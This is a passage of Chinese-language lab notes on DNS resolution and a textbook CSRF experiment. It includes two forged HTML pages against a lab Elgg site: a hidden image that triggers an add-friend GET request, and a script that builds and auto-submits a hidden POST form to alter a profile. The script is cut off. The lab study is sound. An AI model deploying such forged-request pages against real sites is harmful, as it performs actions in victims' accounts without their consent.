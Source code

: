 ```shell
```

这里没有什么问题。但在现实中，域名或许没变，但对应的IP可以变换。如果硬写在hosts中，可能会导致我们访问到旧IP对应的网站，而不是新网站。所以下面提及些DNS的相关内容。

以前在《计算机网路》这门课中了解过DNS，书中没有操作内容。

刷过B站《linux就该这么写》中DNS服务器的配置视频，没有试过。

**阅读下面文章：读了不一定懂了，懂了也不一定会操作。**

一套DNS介绍：[域名解析详解](https://cloud.tencent.com/developer/article/1365761?from=10680) + [dig 命令洞察 DNS 解析过程](https://cloud.tencent.com/developer/article/1366027) + [为什么全球只有13组根域名服务器？](https://cloud.tencent.com/developer/article/1366044?from=10680) + [快速搭建 DNS 服务器](https://cloud.tencent.com/developer/article/1366736?from=10680)

另一套：[DNS 原理入门](https://www.ruanyifeng.com/blog/2016/06/dns.html) + [浏览器的DNS缓存](https://www.jianshu.com/p/9bca699b20fa) + [What happens when you update your DNS?](https://jvns.ca/blog/how-updating-dns-works/)

补：[Domain name resolution (简体中文) --wiki](https://wiki.archlinux.org/index.php/Domain_name_resolution_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87))

<br>

## 3. CSRF攻击实验

参考文章：[HTML 教程](https://www.w3school.com.cn/html/index.asp) 、[JavaScript 教程](https://www.w3school.com.cn/js/index.asp)

我基本不会JS，临时看了点。这本书看完得补充下这部分内容。

下面是先通过查看http的header内容，分析request中的参数信息，以创建恶意的request。

具体过程见书上，这里略。下面仅仅给出get/post在恶意网站中的代码。

```html
<!DOCTYPE html>
<html>
    <body>
        <h1>This is a forge page for HTTP request GET</h1>
        <!--<img src="http://www.csrflabelgg.com/action/friends/add?friend=45&__elgg_ts=1593692739&__elgg_token=fOVWG3RKuI4i3qhkk5xOGg&__elgg_ts=1593692739&__elgg_token=fOVWG3RKuI4i3qhkk5xOGg"> --> 
        <img src="http://www.csrflabelgg.com/action/friends/add?friend=45" alt="image" width="1" height="1">
    </body>
</html>
```

```html
<!DOCTYPE html>
<html>
    <body>
        <h1>This is a post forge page</h1>
        <!-- 代码来源：https://zhuanlan.zhihu.com/p/38169095-->
        <script>
            function post(url,fields){
                var f = document.createElement("form");
                f.action = url;
                f.innerHTML = fields;
                f.method = "post";
                document.body.appendChild(f);
                f.submit();
            }

            function csrf_hack(){
                var fields ="";
                fields += "<input type='hidden' name='name' value='dacao'>";
                fields += "<input type='hidden' name='briefdescription' value='I am dacao. I am from China.'>";
```